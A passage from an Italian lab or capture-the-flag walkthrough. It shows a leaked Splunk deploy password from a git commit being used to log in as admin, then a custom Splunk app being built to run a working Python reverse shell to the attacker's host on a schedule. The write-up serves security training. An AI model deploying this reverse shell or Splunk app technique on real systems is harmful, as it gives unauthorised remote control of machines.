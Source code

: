 ```
       - "9997:9997"
```
Questo commit ci fornisce informazioni importanti
* probabilmente abbiamo un docker sulla macchina remota (```docker-compose.yml```)
* il docker è stato configurato per istanziare una [immagine splunk](https://splunk.github.io/docker-splunk/) (```image: splunk/splunk:7.0.3```)
* la [password di splunk](https://hub.docker.com/r/splunk/splunk/) in fase di deploy è stata impostata a ```_Splunk2@!9_```

La scansione ```nmap``` aveva rilevato la porta tcp/8000 con servizio http esposto, che non avevamo analizzato. La porta tcp/8000 è [usata da Splunk](https://www.speedguide.net/port.php?port=8000) per l'accesso all'interfaccia web di ricerca.

Andiamo quindi a testare immediatamente un login all'indirizzo ```http://192.168.56.102:8000``` con credenziali ```admin/_Splunk2@!9_``` (admin è utenza amminsitrativa di default di Splunk) e verifichiamo che abbiamo accesso all'interfaccia web.
![Splunk admin login](splunk-01.png)

L'idea è di usare Splunk per ottenere una reverse shell sulla macchina e per fare questo andiamo a caricare (siamo admin) una custom app con una reverse shell python. [In questo post](https://threat.tevora.com/penetration-testing-with-splunk-leveraging-splunk-admin-credentials-to-own-the-enterprise/) trovate tutte le info (ed altro ancora).

E' possibile anche leggere la chiave privata usando la funzionalità di *Input Dati* di Splunk, questa tecnica sarà descritta più avanti ([grazie a Matteo Neri](https://www.linkedin.com/feed/update/urn:li:activity:6539347832707575808?commentUrn=urn%3Ali%3Acomment%3A%28activity%3A6539347832707575808%2C6539442301779886080%29) per il suggerimento).

Andiamo a ricreare la struttura standard di un'app splunk (```rev_app```) con le cartelle ed i file necessari dove
* la reverse shell (file ```bin/reverse.py```) punterà all'IP del nostro PC (192.168.56.1, defaut IP per la macchina host sulla host network di Virtualbox) sulla porta 1234
* lo script sarà eseguito da splunk periodicamente (```interval=10```)

```
$ tree rev_app/
rev_app
├── bin
│   └── reverse.py
└── default
    └── inputs.conf

$ cat rev_app/bin/reverse.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
$ cat rev_app/default/inputs.conf 
[script://./bin/reverse.py]
disabled = 0
interval = 10
sourcetype = rev
$ tar czvf rev_app.tar.gz rev_app/
```
Il file dovrà essere caricato su Splunk in formato ```tar.gz```